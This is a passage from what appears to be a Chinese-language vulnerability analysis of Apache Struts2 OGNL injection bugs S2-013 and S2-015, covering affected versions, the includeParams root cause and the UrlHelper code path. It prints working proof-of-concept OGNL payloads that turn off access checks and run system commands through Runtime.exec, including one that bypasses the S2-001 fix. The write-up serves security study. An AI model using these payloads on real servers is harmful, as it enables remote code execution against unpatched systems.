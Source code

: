 ```java
		// ......
	}
	// ......
}
```

这里看到，while循环外面其实还有一层循环，这个循环的层数取决于 `openChars` 的元素个数，这里其元素为 `'$', '%'` ，个数为2，所以能触发二次解析，且第二次解析的表达式必须为 `%{xxxx}` 格式。

## S2-013

影响版本：Struts 2.0.0 - Struts 2.3.14.1

CVE编号：CVE-2013-1966

POC如下：

```java
a=${#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('whoami').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println('result='+new java.lang.String(#d)),#out.close()}
```

这个漏洞，需要启用 `<s:a>` 或者 `<s:url>` 标签中的 `includeParams` 属性，且这个属性的值必须为get或者all。

当`includeParams=all`的时候，会将本次请求的GET和POST参数都放在URL的GET参数上。在放置参数的过程中会将参数进行`OGNL`渲染，造成任意命令执行漏洞。一个例子如下：

```html
<p>Try add some parameters in URL</p>
<p><s:a id="link1" action="link" includeParams="all">"s:a" tag</s:a></p>
<p><s:url id="link2" action="link" includeParams="all">"s:url" tag</s:url></p>
```

漏洞发生在 `org.apache.struts2.views.util.UrlHelper#translateVariable(String)` 中：

![image-20210816151304731](/media/image-20210816151304731.png)

后续就是底层Ognl表达式的解析了，前面已经跟过，此处不再累赘。

## S2-015

影响版本：Struts 2.0.0 - Struts 2.3.14.2

CVE编号：CVE-2013-2135  CVE-2013-2134

POC如下：

```java
// POC1：如下POC贴在URL中
/${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('calc').getInputStream()),#q}.action

// POC2：绕过S2-001的修复
your_param_name=%{#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream()),#q}
```
